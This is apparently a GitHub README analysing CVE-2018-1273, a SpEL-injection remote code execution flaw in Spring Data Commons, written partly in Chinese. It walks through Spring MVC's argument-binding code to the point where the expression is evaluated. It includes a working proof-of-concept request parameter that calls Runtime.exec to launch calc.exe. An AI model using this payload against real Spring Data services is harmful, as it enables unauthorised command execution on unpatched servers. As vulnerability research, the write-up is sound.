

## CVE-2018-1273 RCE with Spring Data Commons

#### Vulnerability Description

Spring Data Commons, versions prior to 1.13 to 1.13.10, 2.0 to 2.0.5, and older unsupported versions, contain a property binder vulnerability caused by improper neutralization of special elements. An unauthenticated remote malicious user (or attacker) can supply specially crafted request parameters against Spring Data REST backed HTTP resources or using Spring Data’s projection-based request payload binding hat can lead to a remote code execution attack.

The PoC is from the example of spring-data-commons: 
https://github.com/spring-projects/spring-data-examples/tree/master/web/example

#### Usage of PoC

```
mvn clean package
java -jar target/spring-data-web-example-2.0.0.BUILD-SNAPSHOT.jar
```

Post data to `http://host:8080/users`

```
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")]=test&password=test&repeatedPassword=test
```

#### Analyze

在官方的说明中，可见是由于使用了 projection-based request payload binding。使用 PoC，断点断在 `UserController.register` 函数第一行：

```
userForm.validate(binding, userManagement);
```

可见 `userForm` 是通过动态代理机制被实例化的。让我们回到漏洞的触发点，也就是 `org.springframework.data.web.MapDataBinder`，在这里下一个断点：

```
StandardEvaluationContext context = new StandardEvaluationContext();
```

查看调用栈，可以发现，是在 `ProxyingHandlerMethodArgumentResolver.createAttribute` 这里调用了 `MapDataBinder`。

`ProxyingHandlerMethodArgumentResolver` 实现了 `BeanFactoryAware, BeanClassLoaderAware`，所以是在 Bean 装配后被自动调用的。Bean 装配后的部分流程如下所示：

Spring 扫描了带有 `@RequestMapping` 注解的方法，处理了请求的映射关系，找到了能够匹配的 `RequestMappingInfo` 实例，在这里是 `/user`，找到了对应的 `Controller` 并确定了对应的`Controller`方法（在这里是`register`）后，Spring 获取处理该方法的 `Adapter`，接着调用其中的 `handle` 方法，如下抽象类所示：

```java
public final ModelAndView handle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        return this.handleInternal(request, response, (HandlerMethod)handler);
}
```

也就调用了 `handleInternal` 方法，`handleInternal` 方法如下所示

```java
protected ModelAndView handleInternal(HttpServletRequest request, HttpServletResponse response, HandlerMethod handlerMethod) throws Exception {
        this.checkRequest(request);
        ModelAndView mav;
        if (this.synchronizeOnSession) {
            HttpSession session = request.getSession(false);
            if (session != null) {
                Object mutex = WebUtils.getSessionMutex(session);
                synchronized(mutex) {
                    mav = this.invokeHandlerMethod(request, response, handlerMethod);
                }
            } else {
                mav = this.invokeHandlerMethod(request, response, handlerMethod);
            }
        } else {
            mav = this.invokeHandlerMethod(request, response, handlerMethod);
        }

        if (!response.containsHeader("Cache-Control")) {
            if (this.getSessionAttributesHandler(handlerMethod).hasSessionAttributes()) {
                this.applyCacheSeconds(response, this.cacheSecondsForSessionAttributeHandlers);
            } else {
                this.prepareResponse(response);
            }
        }

        return mav;
}

```

其会返回一个 `ModelAndView` 实例，这里我们可以看到，返回值 `mav` 由 `this.invokeHandlerMethod` 返回，我们看看其实现。

```java
protected ModelAndView invokeHandlerMethod(HttpServletRequest request, HttpServletResponse response, HandlerMethod handlerMethod) throws Exception {
        ServletWebRequest webRequest = new ServletWebRequest(request, response);//包装请求

        ModelAndView var15;
        try {
            WebDataBinderFactory binderFactory = this.getDataBinderFactory(handlerMethod);//获取 BinderFactory。
            ModelFactory modelFactory = this.getModelFactory(handlerMethod, binderFactory);// 获取 modelFactory，即被 @ModelAttribute 标记的方法
            ServletInvocableHandlerMethod invocableMethod = this.createInvocableHandlerMethod(handlerMethod);
            if (this.argumentResolvers != null) {
                invocableMethod.setHandlerMethodArgumentResolvers(this.argumentResolvers);
            }

            if (this.returnValueHandlers != null) {
                invocableMethod.setHandlerMethodReturnValueHandlers(this.returnValueHandlers);
            }
			// 各种异步调用，这里不是重点，不提，可以理解为设置了上下文。
            invocableMethod.setDataBinderFactory(binderFactory);
            invocableMethod.setParameterNameDiscoverer(this.parameterNameDiscoverer);
            ModelAndViewContainer mavContainer = new ModelAndViewContainer();
            mavContainer.addAllAttributes(RequestContextUtils.getInputFlashMap(request));
            modelFactory.initModel(webRequest, mavContainer, invocableMethod);
            mavContainer.setIgnoreDefaultModelOnRedirect(this.ignoreDefaultModelOnRedirect);
            AsyncWebRequest asyncWebRequest = WebAsyncUtils.createAsyncWebRequest(request, response);
            asyncWebRequest.setTimeout(this.asyncRequestTimeout);
            WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);
            asyncManager.setTaskExecutor(this.taskExecutor);
            asyncManager.setAsyncWebRequest(asyncWebRequest);
            asyncManager.registerCallableInterceptors(this.callableInterceptors);
            asyncManager.registerDeferredResultInterceptors(this.deferredResultInterceptors);
            Object result;
            if (asyncManager.hasConcurrentResult()) {
                result = asyncManager.getConcurrentResult();
                mavContainer = (ModelAndViewContainer)asyncManager.getConcurrentResultContext()[0];
                asyncManager.clearConcurrentResult();
                if (this.logger.isDebugEnabled()) {
                    this.logger.debug("Found concurrent result value [" + result + "]");
                }

                invocableMethod = invocableMethod.wrapConcurrentResult(result);
            }
			// 重点，在这里开始将上下文与容器给 Controller 处理。
            invocableMethod.invokeAndHandle(webRequest, mavContainer, new Object[0]);
            if (asyncManager.isConcurrentHandlingStarted()) {
                result = null;
                return (ModelAndView)result;
            }

            var15 = this.getModelAndView(mavContainer, modelFactory, webRequest);
        } finally {
            webRequest.requestCompleted();
        }

        return var15; // controller 已经处理完了，返回 ModelAndView 实例。
}
```

简单加了些注解，是些粗浅的理解，我们看看 `invocableMethod.invokeAndHandle` 方法，

```java
public void invokeAndHandle(ServletWebRequest webRequest, ModelAndViewContainer mavContainer, Object... providedArgs) throws Exception {
        Object returnValue = this.invokeForRequest(webRequest, mavContainer, providedArgs);// 在这里处理
        this.setResponseStatus(webRequest);
        if (returnValue == null) {
            if (this.isRequestNotModified(webRequest) || this.getResponseStatus() != null || mavContainer.isRequestHandled()) {
                mavContainer.setRequestHandled(true);
                return;
            }
        } else if (StringUtils.hasText(this.getResponseStatusReason())) {
            mavContainer.setRequestHandled(true);
            return;
        }

        mavContainer.setRequestHandled(false);
        Assert.state(this.returnValueHandlers != null, "No return value handlers");

        try {
            this.returnValueHandlers.handleReturnValue(returnValue, this.getReturnValueType(returnValue), mavContainer, webRequest);
        } catch (Exception var6) {
            if (this.logger.isTraceEnabled()) {
                this.logger.trace(this.getReturnValueHandlingErrorMessage("Error handling return value", returnValue), var6);
            }

            throw var6;
        }
}
```

跟进 `this.invokeForRequest`

```java
public Object invokeForRequest(NativeWebRequest request, @Nullable ModelAndViewContainer mavContainer, Object... providedArgs) throws Exception {
    Object[] args = this.getMethodArgumentValues(request, mavContainer, providedArgs);//开始处理参数
    if (this.logger.isTraceEnabled()) {
        this.logger.trace("Invoking '" + ClassUtils.getQualifiedMethodName(this.getMethod(), this.getBeanType()) + "' with arguments " + Arrays.toString(args));
    }

    Object returnValue = this.doInvoke(args);
    if (this.logger.isTraceEnabled()) {
        this.logger.trace("Method [" + ClassUtils.getQualifiedMethodName(this.getMethod(), this.getBeanType()) + "] returned [" + returnValue + "]");
    }

    return returnValue;
}
```

这里要开始处理参数了，很接近我们要分析的关键点，跟进`this.getMethodArgumentValues`看看

```java
private Object[] getMethodArgumentValues(NativeWebRequest request, @Nullable ModelAndViewContainer mavContainer, Object... providedArgs) throws Exception {
        MethodParameter[] parameters = this.getMethodParameters();
        Object[] args = new Object[parameters.length];

        for(int i = 0; i < parameters.length; ++i) {//看参数，我们的 UserForm 是第一个参数，因此就在循环的第一次执行里就能看到。
            MethodParameter parameter = parameters[i];
            parameter.initParameterNameDiscovery(this.parameterNameDiscoverer);
            args[i] = this.resolveProvidedArgument(parameter, providedArgs);
            if (args[i] == null) {
                if (this.argumentResolvers.supportsParameter(parameter)) {//找找这个参数类型是否有对应的 Resolver
                    try {
                        args[i] = this.argumentResolvers.resolveArgument(parameter, mavContainer, request, this.dataBinderFactory);// 有的话去用 resolveArgument 处理该参数。
                    } catch (Exception var9) {
                        if (this.logger.isDebugEnabled()) {
                            this.logger.debug(this.getArgumentResolutionErrorMessage("Failed to resolve", i), var9);
                        }

                        throw var9;
                    }
                } else if (args[i] == null) {
                    throw new IllegalStateException("Could not resolve method parameter at index " + parameter.getParameterIndex() + " in " + parameter.getExecutable().toGenericString() + ": " + this.getArgumentResolutionErrorMessage("No suitable resolver for", i));
                }
            }
}
```

可以看到循环这里已经开始处理参数了。我们进入 `resolveArgument` 看一看。

```java
public Object resolveArgument(MethodParameter parameter, @Nullable ModelAndViewContainer mavContainer, NativeWebRequest webRequest, @Nullable WebDataBinderFactory binderFactory) throws Exception {
        HandlerMethodArgumentResolver resolver = this.getArgumentResolver(parameter); // 依据 type 去拿到 resolver
        if (resolver == null) {
            throw new IllegalArgumentException("Unknown parameter type [" + parameter.getParameterType().getName() + "]");
        } else {
            return resolver.resolveArgument(parameter, mavContainer, webRequest, binderFactory);// 用 resolver 处理参数啦
        }
}
```

看看拿到的 Resolver 是啥呢。



可见 `UserForm` 的 Type 为 Projection Interface，因此该漏洞触发的关键正是在于对参数类型的判断，spring-data-commons 提供了一些额外的 Resolver 来处理参数，是了，就是 `ProxyingHandlerMethodArgumentResolver`，其父类是 `ModelAttributeMethodProcessor`。我们来看看其中 `resolverArgument` 方法的实现：

```java
public final Object resolveArgument(MethodParameter parameter, @Nullable ModelAndViewContainer mavContainer, NativeWebRequest webRequest, @Nullable WebDataBinderFactory binderFactory) throws Exception {
        Assert.state(mavContainer != null, "ModelAttributeMethodProcessor requires ModelAndViewContainer");
        Assert.state(binderFactory != null, "ModelAttributeMethodProcessor requires WebDataBinderFactory");
        String name = ModelFactory.getNameForParameter(parameter);
        ModelAttribute ann = (ModelAttribute)parameter.getParameterAnnotation(ModelAttribute.class);
        if (ann != null) {
            mavContainer.setBinding(name, ann.binding());
        }

        Object attribute = null;
        BindingResult bindingResult = null;
        if (mavContainer.containsAttribute(name)) {
            attribute = mavContainer.getModel().get(name);
        } else {
            try {
                attribute = this.createAttribute(name, parameter, binderFactory, webRequest);// 从 webRequest 中创建
            } catch (BindException var10) {
                if (this.isBindExceptionRequired(parameter)) {
                    throw var10;
                }

                if (parameter.getParameterType() == Optional.class) {
                    attribute = Optional.empty();
                }

                bindingResult = var10.getBindingResult();
            }
        }

        if (bindingResult == null) {
            WebDataBinder binder = binderFactory.createBinder(webRequest, attribute, name);
            if (binder.getTarget() != null) {
                if (!mavContainer.isBindingDisabled(name)) {
                    this.bindRequestParameters(binder, webRequest);
                }

                this.validateIfApplicable(binder, parameter);
                if (binder.getBindingResult().hasErrors() && this.isBindExceptionRequired(binder, parameter)) {
                    throw new BindException(binder.getBindingResult());
                }
            }

            if (!parameter.getParameterType().isInstance(attribute)) {
                attribute = binder.convertIfNecessary(binder.getTarget(), parameter.getParameterType(), parameter);
            }

            bindingResult = binder.getBindingResult();
        }

        Map<String, Object> bindingResultModel = bindingResult.getModel();
        mavContainer.removeAttributes(bindingResultModel);
        mavContainer.addAllAttributes(bindingResultModel);
        return attribute;
}
```

`createAttribute` 则依据 `request.getParameterMap()` 来做自动 bind。其实现如下：

```java
protected Object createAttribute(String attributeName, MethodParameter parameter, WebDataBinderFactory binderFactory, NativeWebRequest request) throws Exception {
        MapDataBinder binder = new MapDataBinder(parameter.getParameterType(), (ConversionService)this.conversionService.getObject());
        binder.bind(new MutablePropertyValues(request.getParameterMap()));
        return this.proxyFactory.createProjection(parameter.getParameterType(), binder.getTarget());
}
```

实例化了 `MapDataBinder` 接着做 bind。后续就很简单了，`bind->doBind->super.doBind->applyPropertyValues->this.getPropertyAccessor().setPropertyValues`。也就调用了`MapDataBinder.setPropertyValue`。在这里执行了 value。

```java
try {
	expression.setValue(context, value);//触发点
} catch (SpelEvaluationException var11) {
	throw new NotWritablePropertyException(this.type, propertyName, "Could not write property!", var11);
}
```

#### 参考资料

https://blog.csdn.net/J080624/article/details/56278869

https://xz.aliyun.com/t/2269

https://pivotal.io/security/cve-2018-1273

https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c&from=1084195010&wm=20005_0002&weiboauthoruid=5458358938

https://github.com/spring-projects/spring-data-examples/tree/master/web/example